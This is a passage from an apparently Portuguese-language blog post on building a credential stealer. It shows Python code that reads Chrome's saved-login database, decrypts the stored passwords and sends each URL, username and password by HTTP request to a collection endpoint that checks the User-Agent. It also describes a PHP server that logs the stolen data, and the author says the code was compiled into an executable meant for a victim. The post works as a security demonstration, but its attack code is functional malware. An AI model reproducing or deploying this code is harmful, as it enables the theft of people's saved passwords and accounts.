 ```python
                #(2) Get ciphertext from sqlite database
                login_db = os.path.normpath(r"%s\%s\Login Data"%(PATH,folder))
                conn = get_db_connection(login_db)
                if(secret_key and conn):
                    cursor = conn.cursor()
                    cursor.execute("SELECT action_url, username_value, password_value FROM logins")
                    for index,login in enumerate(cursor.fetchall()):
                        url = login[0]
                        username = login[1]
                        ciphertext = login[2]
                        if(url!="" and username!="" and ciphertext!=""):
                            #(3) Filter the initialisation vector & encrypted password from ciphertext
                            #(4) Use AES algorithm to decrypt the password
                            decrypted_password = decrypt_password(ciphertext, secret_key)
                            enc = base64.b64encode(bytes(f"{index},{url},{username},{decrypted_password}",'utf-8'))

                            r = requests.get(f'http://127.0.0.1/cred.php?p={enc}', headers={"User-Agent":"Aq1xswdE3"})
                    #Close database connection
                    cursor.close()
                    conn.close()
                    #Delete temp login db
                    os.remove("Loginvault.db")
    except:
        ...
```

Talvez você tenha reparado que a requisição feita para o servidor está usando um user agent um pouco estranho, mas isso vai fazer sentido mais pra frente

Então, a partir desse código gerei um executável que será enviado para a vítima

![](/assets/images/BCred/bc-05.png){: .align-center}

## Server

Como servidor, utilizei um código em PHP extremamente simples. Primeiro ele verifica o user agent, se não for o esperado ele redireciona para uma página que não existe, isso serve para evitar que alguém que encontrou o endereço acesse o site e veja alguma informação, se passar desse primeiro filtro, recebe o valor via parâmetro get e então salva em um arquivo

![](/assets/images/BCred/bc-06.png){: .align-center}

Testando acessar o endereço via navegador, o filtro inicial funciona, e o usuário é redirecionado para 404.php

![](/assets/images/BCred/bc-07.png){: .align-center}

## Executando o ataque
